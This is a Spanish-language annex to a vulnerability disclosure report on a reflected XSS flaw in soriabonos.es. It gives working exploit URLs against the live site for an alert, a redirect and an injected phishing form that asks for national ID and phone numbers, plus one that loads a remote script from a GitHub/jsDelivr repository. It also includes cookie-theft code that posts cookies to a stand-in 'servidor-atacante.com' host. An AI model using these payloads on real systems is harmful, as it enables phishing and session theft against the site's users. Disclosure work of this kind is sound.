



---
tags:
  - hobbies/seguridad
created_time: 2025-12-16 23:15
completa: false
urgente: false

title: "INFORME DE VULNERABILIDAD, XSS en soriabonos.es"
author: "David Mieres Pérez"
titlepage: true
---

# Anexo A: Ejemplos completos

> Aclarar a lectores no técnicos que estos ejemplos no modifican en ningún
> momento los contenidos de la página web, SOLO SON MODIFICADOS EN EL
> DISPOSITIVO FINAL, es decir, desde el dispositivo en el que se pincha en el
> enlace.

## Ejemplo 1: Demostración básica

-   **Payload**

    ```js
    alert(1)
    ```

-   **URL**: [https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22alert%281%29%22%3E][alert]



\newpage
## Ejemplo 2: Redirección a sitio malicioso

-   **Payload**

    ```js
    
    ```

-   **URL**: [https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22window.location%3D%27%2F%2Fexample.com%27%22%3E][redirect]



\newpage
## Ejemplo 3: Phising avanzado

-   **Payload**

    ```js
    document.body.innerHTML=`
    <div style=font-family:sans-serif; text-align:center; margin-top:50px;>
        <h2 style=color:#333>Verificaci&oacute;n de Seguridad</h2>
        <p>Por favor, confirme su identidad para continuar.</p>
        <form style=display:inline-block;
                background:#f4f4f4;
                padding:20px;
                border:1px solid #ccc;
                border-radius:5px;
                text-align:left>

            <label>DNI / NIE:
                <br>
                <input type=text style=width:100%; margin-bottom:10px>
            </label>
            <br>
            <label>
                Tel&eacute;fono M&oacute;vil:
                <br>
                <input type=tel style=width:100%; margin-bottom:20px>
            </label>
            <br>
            <button style=width:100%;
                    padding:10px;
                    background:#28a745;
                    color:white;
                    border:none;
                    border-radius:3px;
                    cursor:pointer>
                Validar Datos
            </button>
        </form>
    </div>
    `
    ```

-   **URL**: [https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22document.body.innerHTML%3D%27%3Cdiv%20style%3Dfont-family%3Asans-serif%3Btext-align%3Acenter%3Bmargin-top%3A50px%3B%3E%3Ch2%20style%3Dcolor%3A%23333%3EVerificaci%26oacute%3Bn%20de%20Seguridad%3C%2Fh2%3E%3Cp%3EPor%20favor%2C%20confirme%20su%20identidad%20para%20continuar.%3C%2Fp%3E%3Cform%20style%3Ddisplay%3Ainline-block%3Bbackground%3A%23f4f4f4%3Bpadding%3A20px%3Bborder%3A1px%20solid%20%23ccc%3Bborder-radius%3A5px%3Btext-align%3Aleft%3E%3Clabel%3EDNI%20%2F%20NIE%3A%3Cbr%3E%3Cinput%20type%3Dtext%20style%3Dwidth%3A100%25%3Bmargin-bottom%3A10px%3E%3C%2Flabel%3E%3Cbr%3E%3Clabel%3ETel%26eacute%3Bfono%20M%26oacute%3Bvil%3A%3Cbr%3E%3Cinput%20type%3Dtel%20style%3Dwidth%3A100%25%3Bmargin-bottom%3A20px%3E%3C%2Flabel%3E%3Cbr%3E%3Cbutton%20style%3Dwidth%3A100%25%3Bpadding%3A10px%3Bbackground%3A%2328a745%3Bcolor%3Awhite%3Bborder%3Anone%3Bborder-radius%3A3px%3Bcursor%3Apointer%3EValidar%20Datos%3C%2Fbutton%3E%3C%2Fform%3E%3C%2Fdiv%3E%27%22%3E][phising]
-   **URL acortada**: [https://gestion.soriabonos.es/qr.html?id=%3Cimg%20src%3Dx%20onerror%3D%22import%28%27%2F%2Fcdn.jsdelivr.net%2Fgh%2F0david0mp%2Fxss_examples%2Fphising_v1.js%27%29%22%3E][phising_jsdelivr]

    Puede que el último no funcione correctamente, debido a que depende de
    servicios de terceros.

    También, el segundo ejemplo permite la inclusión de scripts arbitrarios
    sin límite de longitud, cargando archivos externos, en este caso, el
    archivo es [https://github.com/0david0mp/xss_examples/blob/main/phising_v1.js](https://github.com/0david0mp/xss_examples/blob/main/phising_v1.js)

    Cabe destacar que el actor malicioso puede manejar 3 campos de la url
    anterior; nombre de usuario de github, nombre del repositorio y el nombre
    del archivo, pudiendo hacer incluso más corta la url, como por ejemplo
    [https://gestion.soriabonos.es/qr.html?id=%3Cimg%20src%3Dx%20onerror%3D%22import%28%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Fu%2Fr%2Ff.js%27%29%22%3E](https://gestion.soriabonos.es/qr.html?id=%3Cimg%20src%3Dx%20onerror%3D%22import%28%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Fu%2Fr%2Ff.js%27%29%22%3E).



\newpage
## Ejemplo 4: Robo de sesión

En este caso no se roba sesión ya que no puedo iniciar
sesión en la página [https://gestion.soriabonos.es/](https://gestion.soriabonos.es/).
Tampoco se proporciona URL de ejemplo ni un servidor de un
atacante real.

-   **Payload**:

    ```js
    function getCookiesObject() {
      return document.cookie // "user=admin; token=ABCD1234"
        .split('; ')
        .reduce((acc, cookie) => { // acc -> objeto json con las cookies
          const [key, value] = cookie.split('=');
          acc[key] = decodeURIComponent(value);
          return acc;
        }, {}); // {} -> valor inicial de acc
    }

    fetch('https://servidor-atacante.com/endpoint', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({
        cookies: getCookiesObject()
      })
    });
    ```

[alert]: https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22alert%281%29%22%3E
[redirect]: https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22window.location%3D%27%2F%2Fexample.com%27%22%3E
[phising]: https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22document.body.innerHTML%3D%27%3Cdiv%20style%3Dfont-family%3Asans-serif%3Btext-align%3Acenter%3Bmargin-top%3A50px%3B%3E%3Ch2%20style%3Dcolor%3A%23333%3EVerificaci%26oacute%3Bn%20de%20Seguridad%3C%2Fh2%3E%3Cp%3EPor%20favor%2C%20confirme%20su%20identidad%20para%20continuar.%3C%2Fp%3E%3Cform%20style%3Ddisplay%3Ainline-block%3Bbackground%3A%23f4f4f4%3Bpadding%3A20px%3Bborder%3A1px%20solid%20%23ccc%3Bborder-radius%3A5px%3Btext-align%3Aleft%3E%3Clabel%3EDNI%20%2F%20NIE%3A%3Cbr%3E%3Cinput%20type%3Dtext%20style%3Dwidth%3A100%25%3Bmargin-bottom%3A10px%3E%3C%2Flabel%3E%3Cbr%3E%3Clabel%3ETel%26eacute%3Bfono%20M%26oacute%3Bvil%3A%3Cbr%3E%3Cinput%20type%3Dtel%20style%3Dwidth%3A100%25%3Bmargin-bottom%3A20px%3E%3C%2Flabel%3E%3Cbr%3E%3Cbutton%20style%3Dwidth%3A100%25%3Bpadding%3A10px%3Bbackground%3A%2328a745%3Bcolor%3Awhite%3Bborder%3Anone%3Bborder-radius%3A3px%3Bcursor%3Apointer%3EValidar%20Datos%3C%2Fbutton%3E%3C%2Fform%3E%3C%2Fdiv%3E%27%22%3E
[phising_jsdelivr]: https://gestion.soriabonos.es/qr.html?id=%3Cimg%20src%3Dx%20onerror%3D%22import%28%27%2F%2Fcdn.jsdelivr.net%2Fgh%2F0david0mp%2Fxss_examples%2Fphising_v1.js%27%29%22%3E

<!-- https://www.jsdelivr.com/tools/purge -->
<!-- https://cdn.jsdelivr.net/gh/0david0mp/xss_examples/phising_v1.js -->
